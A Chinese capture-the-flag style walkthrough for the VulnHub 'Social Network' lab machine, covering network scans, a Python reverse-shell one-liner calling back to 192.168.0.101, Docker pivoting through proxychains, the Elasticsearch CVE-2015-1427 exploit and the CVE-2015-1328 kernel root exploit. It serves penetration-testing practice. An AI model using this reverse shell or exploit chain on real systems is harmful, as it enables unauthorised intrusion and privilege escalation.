

天长地久。天地所以能长且久者，以其不自生，故能长生。
靶机：BoredHackerBlog: Social Network
靶机地址：https://www.vulnhub.com/entry/boredhackerblog-social-network,454/
建议使用VirtualBox搭建环境
局域网二层扫描
1 | sudo arp-scan -l |
判断存活主机
1
sudo ./Ladon 192.168.0.101/24 IcmpScan
端口扫描，确定ip
1
nmap 192.168.0.104
全端口扫描：
1
nmap -p- 192.168.0.104
1
2
3
4
5
6
7Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-31 11:05 CST
Nmap scan report for 192.168.0.104
Host is up (0.0013s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE
22/tcp open ssh
5000/tcp open upnp服务扫描
1
nmap -p22,5000 -sV 192.168.0.104
1
2
3
4PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
5000/tcp open http Werkzeug httpd 0.14.1 (Python 2.7.15)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel目录扫描
1
ffuf -w ~/wordlist/Web-Fuzzing-Box/Dir/Directories.txt -u http://192.168.0.104:5000FUZZ -mc all -v -fc 404
python反弹shell
1
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.101",8081));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
容器识别：
1
2
3ls /.dockerenv
或者
cat /proc/1/cgroup存活ip扫描
1
for i in $(seq 1 10); do ping -c 1 172.17.0.$i; done
代理建立

代理扫描
1
2
3
4proxychains4 nmap -Pn -sT 172.17.0.1
proxychains4 nmap -Pn -sT 172.17.0.2
proxychains4 nmap -p9200 -Pn -sT -sV 172.17.0.2搜索Elasticsearch Exp
1
searchsploit Elasticsearch
复制payload
1
cp /usr/share/exploitdb/exploits/linux/remote/36337.py ./
漏洞利用CVE-2015-1427
登录，尝试sudo权限：sudo -s
搜索内核漏洞
1
2
3searchsploit linux 3.13
CVE-2015-1328复制exp
1
cp /usr/share/exploitdb/exploits/linux/local/37292.c ./
修改exp
搜索依赖so文件
1
locate ofs-lib.so
靶机下载so文件和exp
移动到tmp目录
执行exp
1
2chmod +x exp
./exp